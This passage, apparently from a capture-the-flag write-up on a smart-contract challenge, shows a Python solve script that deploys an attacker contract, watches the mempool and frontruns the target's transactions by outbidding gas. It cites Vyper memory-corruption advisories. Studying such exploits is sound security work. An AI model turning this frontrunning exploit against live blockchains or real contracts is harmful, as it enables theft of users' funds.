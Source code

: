 ```py
    battle_thread = Thread(target=do_battle, args=[])
    battle_thread.start()

    while True:
        pending_entries = pending_filter.get_new_entries()
        if pending_entries != []:
            print("[+] Frontrunning")
            for txn_hash in pending_entries:
                txn = conn.w3.eth.get_transaction(txn_hash)
                if txn['to'] == land_addr:
                    decoded_input = decode_data(txn['input'][4:], ["uint8[]"])
                    handler(decoded_input, txn['gasPrice'])
                    return True
        
        if not battle_thread.is_alive():
            print("[-] Frontrun failed")
            return False

def frontrun_handler(lunarian_actions: list[int], gas_price: int):
    master.functions.set_actions(lunarian_actions, start_index, to_draw).send_transaction(gas_price=gas_price + 100)

p = connect()
p.sendlineafter(b"action?", b"1")
solve_pow(p)
uuid = p.recvline_contains(b"uuid:").split(b" ")[-1]
print(f"{uuid = }")
conn = Connection(p.recvline_contains(b"rpc endpoint:").decode().split(" ")[-1])
account = conn.account(p.recvline_contains(b"private key:").decode().split(" ")[-1])
land_addr = p.recvline_contains(b"challenge contract:").decode().split(" ")[-1]

land_abi, _ = load_compiled("ILandOfTheLustrous.sol")
land = conn.contract(account, abi=land_abi, address=land_addr)

master_abi, master_bin = load_compiled("PoC.t.sol", "Master")
master = conn.contract(account, abi=master_abi, bytecode=master_bin)
master.deploy(land_addr)

while True:
    try:
        master.functions.first().send_transaction(value=int(1e18))
        break
    except:
        continue

start_index, to_draw = 0, 0
frontrun(frontrun_handler)  # win stage 0

while True:
    try:
        master.functions.second().send_transaction()
        break
    except:
        continue

start_index, to_draw = 200, 1
frontrun(frontrun_handler)  # draw stage 1

start_index, to_draw = 100, 0
frontrun(frontrun_handler)  # lose stage 0

master.functions.third().send_transaction()

```

[^concat]: [concat built-in can corrupt memory · Advisory · vyperlang/vyper](https://github.com/vyperlang/vyper/security/advisories/GHSA-2q8v-3gqq-4f8p)
[^abi_decode]: [_abi_decode Memory Overflow · Advisory · vyperlang/vyper](https://github.com/vyperlang/vyper/security/advisories/GHSA-9p8r-4xp4-gw5w)